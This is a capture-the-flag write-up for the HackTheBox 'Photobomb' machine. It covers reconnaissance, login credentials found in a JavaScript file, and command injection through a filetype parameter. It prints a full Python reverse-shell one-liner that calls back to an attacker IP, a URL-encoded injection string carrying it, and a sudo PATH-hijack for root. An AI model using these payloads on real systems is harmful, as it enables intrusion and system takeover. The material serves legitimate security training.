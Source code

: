 # HackTheBox: Photobomb Writeup

## Photobomb
### Reconnaissance | Scanning

To begin with, our first priority is to conduct reconnaissance using the provided IP. Our plan is to perform an Nmap scan of the network in order to identify any open ports.

No alt text provided for this image
Nmap Scan

By analyzing the current status, we can observe that only two ports are accessible - port 22 and port 80. The latter, identified as an http port, appears to be running nginx 1.18.0 on Ubuntu. Our next course of action is to focus on port 80 and investigate any potential website content. Utilizing the given IP address of `10.129.228.60`, we can explore the contents available on this specific port.

No alt text provided for this image
IP Showing URL Name

At this point, we need to include the new URL `photobomb.htb` to the `/etc/hosts` file to access the corresponding webpage. From here we will nano into the `/etc/hosts` file.

No alt text provided for this image
etc/hosts file

With the updated IP and URL added to the `/etc/hosts` file, we can now revisit the browser and access the photobomb.htb link. This will allow us to delve deeper into the website and conduct further investigation.

No alt text provided for this image
Webpage working properly

On the page, we have a hyperlink "click here!" that leads to `photobomb.htb/printer`. Upon clicking on the link, a login popup appears. We attempted to log in with the credentials [![Credentials](https://img.shields.io/badge/admin:-admin-blue)](https://shields.io/), but no response was generated. Cancelling the login led us to a 401 Authorization Required error, accompanied by nginx/1.18.0 (Ubuntu) message.

No alt text provided for this image
Login

No alt text provided for this image
401 Authorization Required Link: photobomb.htb/printer

Our next step is to examine the source code of the photobomb.htb webpage. After some investigation, we discovered a photobomb.js file that we can explore further.

No alt text provided for this image
photobomb.js file that show credentials

After conducting a thorough examination of the photobomb.js file, we have uncovered the existence of credentials embedded within the Javascript code. Our next step is to attempt to log in using the credentials [![Credentials](https://img.shields.io/badge/pH0t0:-b0Mb!-blue)](https://shields.io/).

No alt text provided for this image
Login page for phtobomb.htb/printer

No alt text provided for this image
Bottom of page with Download Photo button

Our next course of action is to set up BurpSuite in order to intercept the connections originating from the "Download Photo to Print" button. This will allow us to view any information or prompts that may appear prior to the page progressing further.

No alt text provided for this image
Intercepting with BurpSuite

### Gaining Access
At this point, we can begin testing for any potential vulnerabilities with the "Download Photo to Print" button. Our initial approach will be to test for a delay or timing attack by attempting to cause a five-second delay and observing the response.

After conducting further testing and experimenting with the sleep function, it has been confirmed that the page can be made to sleep for five seconds. This may indicate the presence of a potential vulnerability that could be further exploited.

To obtain a reverse shell, we utilized the Online Reverse Shell Generator (revshells.com) and selected the Python3 #1 option.

```
export RHOST="10.10.14.78";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

Our next step will involve URL encoding the reverse shell and embedding it into the `&filetype=jpg&` field in BurpSuite. Additionally, we must establish a Netcat listener. The method I used to URL encode the reverse shell is by utilizing the built-in function in BurpSuite.

```
%3bexport%20RHOST%3D%2210.10.14.78%22%3Bexport%20RPORT%3D5555%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```

No alt text provided for this image
URL Encoded Reverse Shell

Upon advancing the page in BurpSuite, we successfully captured traffic using the Netcat listener. This indicates that the reverse shell was successfully executed and that we have gained access to the target system.

No alt text provided for this image
Netcat Listener | User Wizard

Now that we have gained access to the target system, we can proceed to investigate the user "Wizard" and explore the contents of their account.

No alt text provided for this image
Traversing Directories found User Flag

### Maintaining Access
After traversing through the system directories, I successfully obtained the user flag from the "user.txt" file. Our next step will be to obtain root privileges through privilege escalation.

No alt text provided for this image
Sudo -l

Using the command `sudo -l`, we were able to determine the type of root privileges granted to the user. It appears that the user has root privileges to execute the command `/opt/clean.sh`. To proceed, we will investigate the `/opt/clean.sh` file by running the `cat /opt/clean.sh` command. This will display the contents of the file in the terminal.

No alt text provided for this image
cat /opt/cleanup.sh

In the next step, we need to switch to the bash shell and then set the executable permission for the `find` file to gain complete access. We can accomplish this by running `chmod +x find`. The command `echo bash > find` will create a file named `find` in the current directory and write the string `bash` to it. If the file already exists, it will be overwritten.

No alt text provided for this image
echo bash > find | chmod +x find

The next command is `sudo PATH=$PWD:$PATH /opt/cleanup.sh`. This will add the current working directory to the beginning of the $PATH environment variable, giving priority to any executables in the current directory over those in other directories. Then, it runs the `/opt/clean.sh` script with sudo, which will execute with root privileges because of the sudo command.

No alt text provided for this image
Root Access

Once you have root access, you can investigate the system further for any important information, such as configuration files, logs, and running processes. This will help you understand how the system works and identify any potential vulnerabilities or misconfigurations that can be exploited. You can also check for any user accounts, credentials, or sensitive data that may be stored on the system. It's important to document your findings and take steps to secure the system to prevent future attacks.

No alt text provided for this image
Root Flag
